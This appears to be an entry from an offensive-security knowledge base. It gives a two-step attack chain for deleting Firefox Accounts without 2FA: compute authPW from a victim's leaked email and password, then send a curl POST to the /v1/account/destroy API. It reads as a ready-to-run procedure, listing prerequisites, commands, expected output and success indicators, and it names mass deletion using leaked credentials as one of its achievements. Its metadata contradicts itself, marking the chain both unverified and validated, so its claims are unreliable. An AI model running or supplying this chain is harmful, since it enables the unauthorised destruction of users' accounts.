

---
tags:
  - authentication-bypass
  - account-deletion
  - api-exploit
  - mozilla
  - firefox
  - pbkdf2
type: attack_chain
tools:
  - '[[tools/calculate-authpw-ts]]'
  - '[[tools/playcode-io-typescript]]'
tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
commands:
  - '[[commands/compute-authpw-script]]'
  - '[[commands/curl-delete-account]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Compute-AuthPW-from-Password]]'
  - '[[procedures/Send-Account-Deletion-Request]]'
step_count: 2
techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
updated_at: '2025-12-14T17:32:39.092Z'
description: >-
  An unauthenticated attacker deletes a Firefox account by computing the authPW
  from a known password and exploiting the /v1/account/destroy API endpoint,
  bypassing 2FA verification.
skill_level: intermediate
impact_level: high
id: bd28564c-eb6b-423f-b344-15950c104de8
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Impact]]'
mitre_techniques:
  - '[[Valid Accounts]]'
  - '[[Exploit Public-Facing Application]]'
---
# Firefox Account Deletion Bypass Using Computed AuthPW Without 2FA

Multi-stage attack chain demonstrating exploitation of improper authentication in Mozilla's Firefox Accounts API, allowing unauthenticated account deletion if the victim's password is known from leaks.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/calculate-authpw-ts]]
- [[tools/playcode-io-typescript]]
- curl (for API requests)

### Target Environment

- Web platform
- Access to Mozilla's API endpoints (e.g., https://api-accounts.stage.mozaws.net)
- No specific ports required; HTTPS over port 443

### Initial Access Requirements

- Victim's email address
- Victim's plaintext password (e.g., from a data leak)
- Network access to the internet for API calls
- No prior authentication needed

## Detailed Attack Procedures

### Step 1: Compute AuthPW
procedure: [[procedures/Compute-AuthPW-from-Password]]

**Objective**: Derive the authPW hash from the victim's email and plaintext password using PBKDF2, as exposed in public client-side code.

**Instructions**: Use the [[commands/compute-authpw-script]] in a TypeScript environment to calculate the authPW:

```bash
# Run in TypeScript playground or Node.js
npm install @types/node crypto
node calculate_authpw.js --email victim@example.com --password leakedpassword
```

**Expected Output**: A base64-encoded authPW string, e.g., "computed_authpw_hash_here".

**Success Indicators**:
- Valid authPW computed without errors
- Hash matches expected PBKDF2 output format

### Step 2: Send Deletion Request
procedure: [[procedures/Send-Account-Deletion-Request]]

**Objective**: Exploit the /v1/account/destroy endpoint by sending a POST request with the email and computed authPW, bypassing 2FA and authorization.

**Instructions**: Use [[commands/curl-delete-account]] to send the request without an Authorization header:

```bash
curl -X POST https://api-accounts.stage.mozaws.net/v1/account/destroy \
  -H "Content-Type: application/json" \
  -d '{"email":"victim@example.com","authPW":"computed_authpw_hash_here"}'
```

**Expected Output**: JSON response indicating successful deletion, e.g., {"success": true}.

**Success Indicators**:
- HTTP 200 response with deletion confirmation
- No 2FA prompt or authorization required
- Account no longer accessible via Firefox login

## Attack Chain Summary

### Key Achievements

1. Bypassed 2FA and authentication requirements for account deletion
2. Enabled mass deletions using leaked credentials
3. Exploited public client-side code for credential derivation

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Valid Accounts]] Valid Accounts
- [[Exploit Public-Facing Application]] Exploit Public-Facing Application

### MITRE ATT&CK Tactics

- [[Initial Access]] Initial Access
- [[Impact]] Impact

---

*Last updated: 2023-10-01T00:00:00Z*
